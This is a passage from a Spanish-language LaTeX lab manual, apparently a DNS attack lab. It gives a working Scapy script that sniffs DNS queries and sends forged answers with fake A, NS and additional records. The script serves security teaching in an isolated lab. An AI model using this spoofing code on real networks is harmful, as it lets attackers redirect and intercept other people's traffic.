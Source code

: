 \section{Guías}
\label{sec:guideline}

Dado que necesita usar Scapy para varias tareas del laboratorio. El siguiente código de ejemplo muestra como sniffear una consulta DNS y spoofear una respuesta DNS que contiene un registro A en la sección Answer, dos registros en la sección Authority y dos registros en la sección Additional. El código está incluído dentro del archivo \texttt{Labsetup.zip} (dentro de la carpeta \texttt{volumes}).


\begin{lstlisting}[caption={Sample code: \texttt{dns\_sniff\_spoof.py}}]
#!/usr/bin/env python3
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,  (*@\ding{81}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
f = 'udp and dst port 53'
pkt = sniff(iface='br-43d947d991eb', filter=f, prn=spoof_dns)       (*@\ding{73}@*)    
\end{lstlisting}
 

